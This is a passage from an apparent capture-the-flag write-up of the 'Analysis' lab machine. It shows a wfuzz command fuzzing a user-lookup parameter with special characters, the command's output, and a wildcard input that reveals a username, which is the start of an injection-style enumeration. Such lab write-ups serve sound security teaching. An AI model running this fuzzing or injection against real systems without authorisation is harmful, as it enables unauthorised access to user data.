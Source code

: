 Let's fuzz special characters for different responses with wfuzz and hidding the string "CONTACT_" as it's what we receive in a invalid response and urlencoding it as some characters may conflict with url special characters:

```bash
❯ wfuzz -c -z file,/opt/SecLists/Fuzzing/special-chars.txt,urlencode -u 'http://internal.analysis.htb/users/list.php?name=FUZZ' --hs="CONTACT_"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://internal.analysis.htb/users/list.php?name=FUZZ
Total requests: 32

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000010:   200        0 L      1 W        8 Ch        "%28"                                                                                                                  
000000009:   200        0 L      11 W       418 Ch      "%2A"                                                                                                                  
000000011:   200        0 L      1 W        8 Ch        "%29"                                                                                                                  
000000021:   200        0 L      1 W        8 Ch        "%5C"                                                                                                                  

Total time: 0.345897
Processed Requests: 32
Filtered Requests: 28
Requests/sec.: 92.51290

❯ php -r 'echo urldecode("%29\n"); echo urldecode("%28\n"); echo urldecode("%2A\n"); echo urldecode("%5C\n");';echo
)
(
*
\
```

We see that those characters return different responses and trying the wildcard returns the user `technician`:

![Wildcard valid response](/assets/images/Analysis/wildcard_valid_response.png)
